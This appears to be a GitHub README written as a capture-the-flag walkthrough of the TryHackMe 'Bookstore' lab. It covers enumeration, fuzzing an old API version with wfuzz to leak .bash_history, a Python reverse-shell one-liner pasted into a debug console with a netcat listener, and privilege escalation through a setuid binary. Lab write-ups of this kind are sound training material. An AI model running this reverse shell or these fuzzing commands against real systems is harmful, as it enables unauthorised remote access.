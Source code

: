 # BookStore
This is a CTF write-up part of the TryHackMe box called the bookstore

The first thing to do when enumerating a target is to look at what's open for access so I decided to do a Nmap scan on the target IP address

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/300d8374-5dd3-4888-8ffc-c40290430d6a)

I've found that port 80 which indicates a web page, and port 5000 is open so I decided to check it

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/b26051f7-ab73-477b-a695-881e1e40ad16)

I found that they are using a Foxy REST API v2.0 which would indicate an outdated version

When checking the source code for the login page I also found this in the source code
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/7d429ec1-7e19-4f9c-afbe-d681de0b2c0f)

This was an indicator that there's a file called bash_history which would include a pin that might be viable down the line

After that, I enumerated the web address with port 5000 to find anything that might be of use and found the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/4ee94a74-d31c-4d8e-a326-98d9f22c18f7)

The robots.txt file didn't have anything interesting, just a prevention so web crawlers won't be able to find the /api 
whoever I was able to find a /console that took me to a page that asked for a PIN, the PIN mentioned earlier could be used for it
within the /api I was able to find the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/a107652a-af37-437a-a828-8d209bd0cfdb)

So I decided to use the old version of the API and see if I could find any left-behind files that could be of use
I used wfuzz to look for where the bash_history file might be at

```shell wfuzz https://IP:5000/api/v1/resources/books?FUZZ=.bash_history --hc 404 -w /usr/share/wordlist/dirbs/common.txt```

and got the following results

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/c2b0a714-836c-4c06-a7a1-484c78bb15aa)

the only payload that returned a JSON file was "show" which returned the following

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/0ffa5c0f-b0b2-4bdc-998a-9b3bb953684f)

now that we got the PIN, let's use it to access the console

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/4b9009a3-6351-42f3-96f8-9b205d78eb1f)

looks like we have a Python interactive console, so let's use a Python payload to initiate a reverse shell

```python import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")```
used this cheatsheet https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

before importing the payload into the console I opened a netcat on port 1234 
```shell nc -lvnp 1234```

after which I was able to login into the shell and found the user.txt file which was the first flag
![edited usertxt](https://github.com/achrafelkhatib/BookStore/assets/61394291/2a553a2d-c99a-454d-bbf7-77632a0858a9)

now for privilege escalation, i first looked at what files are in sid's directory and found the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/dd2ad76e-cc3f-441c-a5a1-b04f4bad935d)

the try-harder file can be executed as indicated by the x and it's owned by the root user within the group sid, which means we can run as sid as well and might be our 
gateway into being a root, however upon running it, it was asking for a magic number, so I decided to reverse engineer the binary file in order to see its contents and found
the following

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/e85ab127-fbd4-4187-bf28-ebe355c633bc)

now we have the code and the magic number however we need to do some calculations in order to find the full number, so in Python I did the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/7e10926b-7ed3-4def-8b58-21ae79cb86fa)

now that we have the magic number let's try running the script again and see what happens
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/f39037a4-2750-42f1-96fb-e2d568dcb232)

looks like now we are root, so on the hunt for the root.txt file which was found in the root directory under /root/root.txt 
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/cda7dd45-1872-4613-96cf-c13b7b10404b)

now all we got to do is cat the file for the hex flag.
